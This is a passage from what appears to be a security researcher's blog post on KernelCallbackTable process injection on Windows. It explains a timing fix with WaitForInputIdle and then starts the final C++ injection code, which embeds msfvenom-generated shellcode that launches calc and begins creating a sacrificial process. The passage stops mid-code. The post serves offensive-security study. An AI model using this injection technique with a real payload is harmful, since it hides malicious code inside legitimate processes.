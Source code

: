 ![Created Process with Window](/static/img/2022-04-21-kernelcallbacktable-injection/process-has-window.png)

### Third Attempt: SUCCESS!

After some digging, the reason my second attempt failed is that I didn't give the created process enough time to initialize its inputs. A `Sleep()` function will fix the issue _(I tried it and it worked)_. However, I don't want to wait until the number of seconds passed in `Sleep()` lapsed. I used `WaitForInputIdle()` instead so it will only wait until the process has finished its initialization.
```cpp
WaitForInputIdle(pi.hProcess, 1000);
```

Here's the final code that I came up with.
```cpp
#include <Windows.h>
#include <stdio.h>
#include "struct.h"

int main()
{
	// msfvenom -p windows/x64/exec CMD=calc EXITFUNC=thread -f c
	unsigned char payload[] = "\xfc\x48\x83\xe4\xf0\xe8\xc0\x00\x00\x00\x41\x51\x41\x50\x52\x51\x56\x48\x31\xd2\x65\x48\x8b\x52\x60\x48\x8b\x52\x18\x48\x8b\x52\x20\x48\x8b\x72\x50\x48\x0f\xb7\x4a\x4a\x4d\x31\xc9\x48\x31\xc0\xac\x3c\x61\x7c\x02\x2c\x20\x41\xc1\xc9\x0d\x41\x01\xc1\xe2\xed\x52\x41\x51\x48\x8b\x52\x20\x8b\x42\x3c\x48\x01\xd0\x8b\x80\x88\x00\x00\x00\x48\x85\xc0\x74\x67\x48\x01\xd0\x50\x8b\x48\x18\x44\x8b\x40\x20\x49\x01\xd0\xe3\x56\x48\xff\xc9\x41\x8b\x34\x88\x48\x01\xd6\x4d\x31\xc9\x48\x31\xc0\xac\x41\xc1\xc9\x0d\x41\x01\xc1\x38\xe0\x75\xf1\x4c\x03\x4c\x24\x08\x45\x39\xd1\x75\xd8\x58\x44\x8b\x40\x24\x49\x01\xd0\x66\x41\x8b\x0c\x48\x44\x8b\x40\x1c\x49\x01\xd0\x41\x8b\x04\x88\x48\x01\xd0\x41\x58\x41\x58\x5e\x59\x5a\x41\x58\x41\x59\x41\x5a\x48\x83\xec\x20\x41\x52\xff\xe0\x58\x41\x59\x5a\x48\x8b\x12\xe9\x57\xff\xff\xff\x5d\x48\xba\x01\x00\x00\x00\x00\x00\x00\x00\x48\x8d\x8d\x01\x01\x00\x00\x41\xba\x31\x8b\x6f\x87\xff\xd5\xbb\xe0\x1d\x2a\x0a\x41\xba\xa6\x95\xbd\x9d\xff\xd5\x48\x83\xc4\x28\x3c\x06\x7c\x0a\x80\xfb\xe0\x75\x05\xbb\x47\x13\x72\x6f\x6a\x00\x59\x41\x89\xda\xff\xd5\x63\x61\x6c\x63\x00";
	SIZE_T payloadSize = sizeof(payload);

	// Create a sacrifical process
	PROCESS_INFORMATION pi;
	STARTUPINFO si = { sizeof(STARTUPINFO) };
	si.dwFlags = STARTF_USESHOWWINDOW;
```